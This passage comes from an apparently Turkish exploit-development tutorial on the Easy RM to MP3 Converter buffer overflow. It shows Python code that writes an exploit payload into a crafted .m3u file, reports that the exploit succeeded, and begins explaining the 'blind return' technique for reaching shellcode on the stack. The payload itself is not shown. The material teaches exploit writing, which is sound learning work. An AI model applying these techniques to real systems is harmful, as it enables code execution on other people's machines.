 ```python

# File path
file = "EasyRMtoMP3Converter/exploit.m3u"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```

Şimdi çalıştıralım...

![exploit](img/0x02/7.png)

Ve başarılı bir şekilde çalışmış oldu :)

## `blind return`

Bunda da mantık oldukça basit. EIP üzerine `ret` işlemi yapan bir adres yazdıktan sonra stack içerisine shellcode'umuzun adresini yazacağız. Böylelikle ret komutu çalıştığı zaman o an ESP'nin gösterdiği adresin içerisinde yazan adresi (yani shellcode'un adresi) çalıştırmış olacak.
